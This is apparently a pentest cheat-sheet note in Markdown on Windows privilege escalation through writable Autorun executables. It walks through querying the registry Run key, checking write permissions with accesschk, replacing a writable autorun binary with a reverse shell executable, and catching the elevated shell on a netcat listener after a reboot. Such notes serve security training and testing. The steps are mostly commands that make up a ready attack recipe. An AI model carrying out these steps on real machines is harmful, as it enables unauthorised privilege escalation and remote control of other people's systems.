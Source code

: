 - - -
Windows can be configured to automatically run commands at startup, with elevated privileges.
These Autorun files are configured in the registry.
Is our user is able to write that Autorun executable File and are able to restart the system(Or just wait for it to be restarted )
Then we may be able to elevate privileges.

## Start :

###### Query the registry for Autorun programs.

```
 reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

```
results : 1
          2 
          3
```

Do we have **write permissions** in the existing binary path. Note at your **GROUP** in the results. Find the writable one!!

```
.\accesschk.exe /accepteula -wvu “C:\Program Files\Some more Path\Vulnerable_executable1”


.\accesschk.exe /accepteula -wvu “C:\Program Files\Some more Path\Vulnerable_executable2”


.\accesschk.exe /accepteula -wvu “C:\Program Files\Some more Path\Vulnerable_executable3”                 # and so on.
```

**have a backup.**

```
copy “C:\Program Files\Some more Path\Vulnerable_executable3” C:\Temp
```

Replace the executable with the reverse shell.

```
copy /Y C:\Temp\reverse.exe “C:\Program Files\Some more Path\Vulnerable_executable3”
```

```sh
nc -nvlp 9090
```

Now go and restart the windows or if you have no rights to do so , just wait.

As the system starts you will get a reverse connnection.

- - - 
